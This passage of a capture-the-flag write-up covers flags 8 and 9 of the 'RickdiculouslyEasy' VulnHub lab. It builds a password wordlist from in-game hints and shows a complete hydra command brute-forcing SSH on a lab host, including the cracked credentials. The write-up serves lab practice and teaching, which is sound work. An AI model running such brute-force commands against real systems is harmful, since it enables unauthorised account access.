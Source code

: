 

# Flag 8

```bash
[Summer@localhost RICKS_SAFE]$ cp safe /tmp
[Summer@localhost RICKS_SAFE]$ cd /tmp
[Summer@localhost tmp]$ ./safe 
Past Rick to present Rick, tell future Rick to use GOD DAMN COMMAND LINE AAAAAHHAHAGGGGRRGUMENTS!

[Summer@localhost tmp]$ ./safe 131333
decrypt:        FLAG{And Awwwaaaaayyyy we Go!} - 20 Points

Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order


1 uppercase character
1 digit
One of the words in my old bands name.
```

Rick's old band = 'The Flesh Curtains'
So, i wrote a python script for generating the wordlist with 1 uppercase character, 1 digit and one of the words from the old band.
	Here's the link for [Python Script](https://github.com/ninchy0/vulnhub-writeups/blob/main/RickdiculouslyEasy1/wordlist.py)
	


# Flag 9 

### Bruteforcing using hydra on ssh port 22222

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l RickSanchez -P wordlist.txt ssh://192.168.1.66:22222 -t60 -V
.
.
.
.
.
.
.
[22222][ssh] host: 192.168.1.66   login: RickSanchez   password: P7Curtains
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 56 final worker threads did not complete until end.
[ERROR] 56 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
```
